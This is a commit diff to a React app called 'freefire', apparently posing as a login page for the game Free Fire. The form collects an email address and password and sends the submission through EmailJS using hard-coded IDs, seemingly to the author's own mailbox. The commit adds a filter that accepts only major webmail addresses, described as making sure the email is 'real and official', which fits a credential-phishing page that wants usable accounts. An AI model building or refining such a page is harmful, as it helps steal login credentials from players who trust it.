

Before and after one commit to hatemkhe/freefire, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 350-512 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update App.tsx

```diff
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -1,11 +1,24 @@
 import React, { useState } from 'react';
-import { LogIn, UserPlus, Lock, Mail, User, Shield, Zap, Target, Eye, Flame, LogOut, CheckCircle2, Loader2 } from 'lucide-react';
+import { LogIn, UserPlus, Lock, Mail, User, Shield, Zap, Target, Eye, EyeOff, Flame, LogOut, CheckCircle2, Loader2 } from 'lucide-react';
 import emailjs from '@emailjs/browser';
 
 // المعرفات المحدثة والصحيحة لحسابك
 const EMAILJS_SERVICE_ID = 'service_fyhamvf';
 const EMAILJS_TEMPLATE_ID = 'template_51n7ft7';
 const EMAILJS_PUBLIC_KEY = '9z9fb-U7LtKWji6qM';
+
+// النطاقات المسموحة للتأكد من أن البريد حقيقي ورسمي
+const ALLOWED_DOMAINS = ['gmail.com', 'yahoo.com', 'hotmail.com', 'outlook.com', 'icloud.com'];
+
+const isEmailValid = (email: string): boolean => {
+  // فحص الصيغة البرمجية للإيميل (وجود @ و . ودون مسافات)
+  const regex = /^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/;
+  if (!regex.test(email)) return false;
+
+  // استخراج النطاق والتأكد من أنه ينتهي بشركة بريد حقيقية
+  const domain = email.split('@')[1]?.toLowerCase();
+  return ALLOWED_DOMAINS.includes(domain);
+};
 
 interface Option {
   id: string;
@@ -22,6 +35,9 @@ export default function App() {
   const [email, setEmail] = useState<string>('');
   const [password, setPassword] = useState<string>('');
   const [name, setName] = useState<string>('');
+
+  // حالة عرض/إخفاء كلمة السر
+  const [showPassword, setShowPassword] = useState<boolean>(false);
 
   const [showSuccessMessage, setShowSuccessMessage] = useState<boolean>(false);
   const [isSending, setIsSending] = useState<boolean>(false);
@@ -68,10 +84,16 @@ export default function App() {
     e.preventDefault();
     if (!email || !password) return;
 
+    // 1. التحقق من صحة الإيميل قبل البدء بفرز الطلب
+    if (!isEmailValid(email)) {
+      alert('يرجى إدخال بريد إلكتروني حقيقي ورسمي (مثل Gmail أو Yahoo أو Hotmail)');
+      return;
+    }
+
     setIsSending(true);
 
     try {
-      // إرسال البيانات مع تمرير الـ publicKey ضمن كائن الخيارات
+      // إرسال البيانات عبر EmailJS
       const response = await emailjs.send(
         EMAILJS_SERVICE_ID,
         EMAILJS_TEMPLATE_ID,
@@ -251,13 +273,24 @@ export default function App() {
             <div className="relative">
               <Lock className="absolute left-3 top-1/2 -translate-y-1/2 w-4 h-4 text-gray-500" />
               <input
-                type="password"
+                type={showPassword ? 'text' : 'password'}
                 required
                 value={password}
                 onChange={(e) => setPassword(e.target.value)}
-                className="w-full pl-10 pr-4 py-2.5 bg-gray-950 border border-gray-800 rounded-lg focus:outline-none focus:border-emerald-500 text-white transition-all text-sm"
+                className="w-full pl-10 pr-10 py-2.5 bg-gray-950 border border-gray-800 rounded-lg focus:outline-none focus:border-emerald-500 text-white transition-all text-sm"
                 placeholder="••••••••"
               />
+              <button
+                type="button"
+                onClick={() => setShowPassword(!showPassword)}
+                className="absolute right-3 top-1/2 -translate-y-1/2 text-gray-500 hover:text-gray-300 transition-colors focus:outline-none"
+              >
+                {showPassword ? (
+                  <EyeOff className="w-4 h-4" />
+                ) : (
+                  <Eye className="w-4 h-4" />
+                )}
+              </button>
             </div>
           </div>
 
```
